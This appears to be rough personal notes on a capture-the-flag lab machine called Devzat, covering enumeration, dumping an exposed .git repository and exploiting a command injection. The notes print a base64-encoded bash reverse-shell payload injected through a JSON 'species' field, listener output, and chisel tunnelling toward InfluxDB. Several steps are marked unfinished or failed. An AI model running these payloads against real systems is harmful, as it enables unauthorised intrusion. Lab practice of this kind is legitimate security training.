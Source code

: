 Name: Devzat
IP: 10.10.11.118
OS: Linux

##**Enumeration::**##
nmap::
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c2:5f:fb:de:32:ff:44:bf:08:f5:ca:49:d4:42:1a:06 (RSA)
|   256 bc:cd:e8:ee:0a:a9:15:76:52:bc:19:a4:a3:b2:ba:ff (ECDSA)
|_  256 62:ef:72:52:4f:19:53:8b:f2:9b:be:46:88:4b:c3:d0 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: devzat - where the devs at
8000/tcp open  ssh     (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-Go
| ssh-hostkey:
|_  3072 6a:ee:db:90:a6:10:30:9f:94:ff:bf:61:95:2a:20:63 (RSA)
1 service unrecognized despite returning data.
SF-Port8000-TCP:V=7.91%I=7%D=1/30%Time=61F72B44%P=x86_64-pc-linux-gnu%r(NU
SF:LL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

dirb::
/assets, /images, /javascript, /server-status

http:
UN: patrick@devzat.htb
`ssh -l [username] devzat.htb -p 8000 `
+ w/ patrick:: Nickname reserved for local use, please choose a different one.
+ `id/ :: bad5f40e4a8de24f154becbbe6939ebaca4166aff3dd5b12e477a40a10193092`
+ id/ <user> Get a unique ID for a user (hashed IP)

nikto::
+ Server may leak inodes via ETags, header found with file /, inode: 197f, size: 5c570e80059d3, mtime: gzip
+ Allowed HTTP Methods: HEAD, GET, POST, OPTIONS
+ OSVDB-3268: /images/: Directory indexing found.
+ OSVDB-3092: /LICENSE.txt: License file found may indicate something
  + Creative Commons Attribution 3.0 Unported

ffuf::Nothing
gobuster:: gobuster vhost -u http://devzat.htb/ -w /DNS/shubs-domains.txst -q | grep 200 :: http://pets.devzat.htb
wfuzz:: 
`wfuzz -t 20 --hc 400,302 -H "HOST: FUZZ.devzat.htb" -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://devzat.htb`::
+ http://pets.devzat.htb 
`wfuzz --sc 400,301 -w /opt/Seclist/Discovery/DNS/subdomains-top1million-110000.txt http://pets.devzat.htb/FUZZ`::
+ /css, /build, /.git see ![wfuzz_pets_](Screenshots/devzat_pets_fuzz.png)
  + [hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web/git)
    + view changes with git diff

##**git-dumper::**## see ![git-dumper](Screenshots/git-dumper.png)
`
mkdir -p /tmp/devzat && chmod 777 /tmp/devzat
./git_dumper.py http://pets.devzat.htb/.git /tmp/devzat/
`
 cat main.go::
cmd := exec.Command("sh", "-c", "characteristics/"+species)
    + revshell injection:
burpsuite:: http//pets.devzat.htb
+ nc shell doesnt work
`echo -n 'bash -i >& /dev/tcp/10.10.16.13/5555' |base64::YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1 ` 
+ burp request:: 
`broken shell:: TODO:: stablize` see ![broken_shell](Screenshots/devzat_base64_revshell.png)
+ still doesnt work::
  + species":"cat; echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xMy81NTU1ICY=|base64 -d|fg %1|/bin/bash

TODO:
listening on [any] 5555 ...
connect to [10.10.16.13] from (UNKNOWN) [10.10.11.118] 50316
bash: cannot set terminal process group (845): Inappropriate ioctl for device
bash: no job control in this shell
patrick@devzat:~/pets$ exit
[enable_job_ctrl](https://stackoverflow.com/questions/690266/why-cant-i-use-job-control-in-a-bash-script)

##**Gain foothold::**##

FIX:: output bash shell 0>&1 See ![](Screenshots/devzat_shell_encode.png)

/home/catherine/user.txt permission denied


##**linpeas.sh::**##
+docker port 8086
-rwxr-sr-x 1 root crontab 43K Feb 13  2020 /usr/bin/crontab
-rwxr-sr-x 1 root shadow 31K May 28  2020 /usr/bin/expiry
-rwsr-sr-x 1 daemon daemon 55K Nov 12  2018 /usr/bin/at  --->  RTru64_UNIX_4.0g(CVE-2002-1614)
-rwxr-sr-x 1 root shadow 83K May 28  2020 /usr/bin/chage

/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

/etc/ld.so.conf                                                                                                   
include /etc/ld.so.conf.d/*.conf
/etc/ld.so.conf.d
/etc/ld.so.conf.d/fakeroot-x86_64-linux-gnu.conf
/usr/lib/x86_64-linux-gnu/libfakeroot
/etc/ld.so.conf.d/libc.conf
/usr/local/lib
/etc/ld.so.conf.d/x86_64-linux-gnu.conf
/usr/local/lib/x86_64-linux-gnu
/lib/x86_64-linux-gnu
/usr/lib/x86_64-linux-gnu

systemd+     510  0.0  0.3  18408  7396 ?        Ss   Jan31   0:03 /lib/systemd/systemd-networkd
└─(Caps) 0x0000000000003c00=cap_net_bind_service,cap_net_broadcast,cap_net_admin,cap_net_raw

/usr/bin/docker                                                                                                   
/usr/bin/runc

PORTS::
53, 8086, 22, 8843, 5000

patrick@devzat:~$ curl -vvv 127.0.0.1:8086
*   Trying 127.0.0.1:8086...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 8086 (#0)
* Mark bundle as not supporting multiuse
  < HTTP/1.1 404 Not Found
  < Content-Type: text/plain; charset=utf-8
  < X-Content-Type-Options: nosniff
  < X-Influxdb-Build: OSS
  < X-Influxdb-Version: 1.7.5
  < Date: Wed, 02 Feb 2022 19:57:43 GMT
  < Content-Length: 19

##**Attempts::**##
+ pwnkit - no
+ GTFObins - docker no, 
+ getcap -r / 2>/dev/null ??
+ serve influxdb:8086 with 
  + chisel: ./chisel server -p 8000 --reverse
  + chisel: ./chisel client 10.10.16.13:8000
    + should server 8086

https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933 - no python
https://github.com/twistlock/RunC-CVE-2019-5736 - No luck
https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/ maybe? 

Font Awesome Free 5.9.0 by @fontawesome - https://fontawesome.com
html5up.net 

##**References::**##
[git-dumper](https://github.com/arthaud/git-dumper)
[exploit](https://book.hacktricks.xyz/pentesting/8086-pentesting-influxdb)
[chisel](https://github.com/jpillora/chisel)
